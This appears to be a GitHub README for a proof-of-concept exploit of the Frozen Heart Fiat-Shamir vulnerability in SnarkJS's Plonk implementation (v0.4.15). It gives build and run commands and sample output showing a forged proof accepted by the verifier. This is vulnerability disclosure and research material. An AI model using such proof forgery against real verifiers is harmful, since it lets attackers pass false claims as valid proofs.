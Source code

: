 # frozen-heart-poc

A Proof-of-Concept for [the Frozen Heart Vulnerability in Plonk](https://blog.trailofbits.com/2022/04/18/the-frozen-heart-vulnerability-in-plonk/) on [SnarkJS](https://github.com/iden3/snarkjs) implementation (v0.4.15). In this PoC, we will forge a Plonk proof to convince the verifier that we know two factors of a random integer even though we don't really know it.

The [Frozen Heart Vulnerability](https://blog.trailofbits.com/2022/04/13/part-1-coordinated-disclosure-of-vulnerabilities-affecting-girault-bulletproofs-and-plonk/) by [Trail of Bits](https://twitter.com/trailofbits) is a bug class where insecure implementations of the [Fiat-Shamir transformation](https://en.wikipedia.org/wiki/Fiat%E2%80%93Shamir_heuristic) would allow a malicious prover to forge a proof in such a way that the verifier will accept it. While the public inputs are randomly produced in the example of the original blog post, a sophisticated attacker could be more clever on selecting wire values to get the public inputs as desired. The vulnerability could arise in various proof systems (Girault, Bulletproofs, Plonk, etc.), in this PoC, we domostrate a PoC of the vulnerability in Plonk proof.

### Build
Make sure you have [Circom](https://docs.circom.io/), [NodeJS](https://nodejs.org/) and [NPM](https://www.npmjs.com/) installed (any version of these softwares should work), then run the following command to build the PoC.

```
git clone https://github.com/chrsow/frozen-heart-poc
cd frozen-heart-poc
./build.sh
```

### Run the PoC
```
npm run exploit
```

```sh
# > frozen-heart@1.0.0 exploit
# > npx tsc && node src/exploit.js

# #### Goal: prove that we know the factors of n without reavealing its factors (n === p * q) to the verifier
# #### Submit a valid proof with the knowledge of private inputs (factors of "n")
# ## Private Inputs (factors p, q): p = 14131697022969285607, q = 14781699601595105827
# ## p * q === 208890500254287832136014517513752931989
# [+] You really know the factor of 208890500254287832136014517513752931989!
# ################ HERE WE GO ################
# #### Submit a forge proof without the knowledge of private inputs (factors of a random "n")
# [+] You really know the factor of 10590450084067612247393057396231008614287484040058187609770642683754037255182!
# #### We have successfully convinced the verifier that we konw the factors of 10590450084067612247393057396231008614287484040058187609770642683754037255182
# #### Even though we have no idea what are its factors
```